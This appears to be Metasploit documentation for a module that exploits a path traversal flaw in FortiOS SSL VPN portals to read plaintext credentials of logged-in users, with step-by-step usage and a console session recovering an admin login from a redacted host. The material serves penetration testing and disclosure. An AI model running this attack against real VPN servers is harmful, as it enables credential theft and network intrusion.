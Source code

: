 ## Vulnerable Application
Fortinet FortiOS versions 5.4.6 to 5.4.12, 5.6.3 to 5.6.7 and 6.0.0 to 6.0.4 are vulnerable to
a path traversal vulnerability within the SSL VPN web portal which allows unauthenticated attackers
to download FortiOS system files through specially crafted HTTP requests.

This module exploits this vulnerability to read the usernames and passwords of users currently logged
into the FortiOS SSL VPN, which are stored in plaintext in the `/dev/cmdb/sslvpn_websession` file on
the VPN server.

## Verification Steps

1. Start msfconsole
2. Do: use auxiliary/gather/fortios_vpnssl_traversal_creds_leak
3. Do: set RHOSTS [IP]
4. Do: set RPORT 10443
5. Do: run

## Options

### DUMP_FORMAT

Dump format. (Accepted: raw, ascii)

### STORE_CRED

If set, then store gathered credentials into the Metasploit creds database.

## Scenarios

### FortiOS 6.0

```
msf > use auxiliary/gather/fortios_vpnssl_traversal_creds_leak
msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > show options

Module options (auxiliary/gather/fortios_vpnssl_traversal_creds_leak):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_FORMAT  raw              yes       Dump format. (Accepted: raw, ascii)
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        10443            yes       The target port (TCP)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED   true             no        Store credential into the database.
   TARGETURI    /remote          yes       Base path
   THREADS      1                yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > set RHOSTS *redacted*
RHOSTS => *redacted*
msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > run

[*] https://*redacted*:10443 - Trying to connect.
[+] https://*redacted*:10443 - Vulnerable!
[+] https://*redacted*:10443 - File saved to /home/gwillcox/.msf4/loot/20210226142747_default_*redacted*__761592.txt
[+] https://*redacted*:10443 - 1 credential(s) found!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > creds
Credentials
===========

host            origin          service            public  private    realm  private_type  JtR Format
----            ------          -------            ------  -------    -----  ------------  ----------
*redacted*  *redacted*  10443/tcp (https)  admin   *redacted*         Password

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > cat /home/gwillcox/.msf4/loot/20210226142747_default_*redacted*__761592.txt
[*] exec: cat /home/gwillcox/.msf4/loot/20210226142747_default_*redacted*__761592.txt

var fgt_lang =
�/V^Pҽ�w���V^��V^��V^*redacted*admin*redacted*RemoteUSersfull-accessroot�бmsf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) >

```
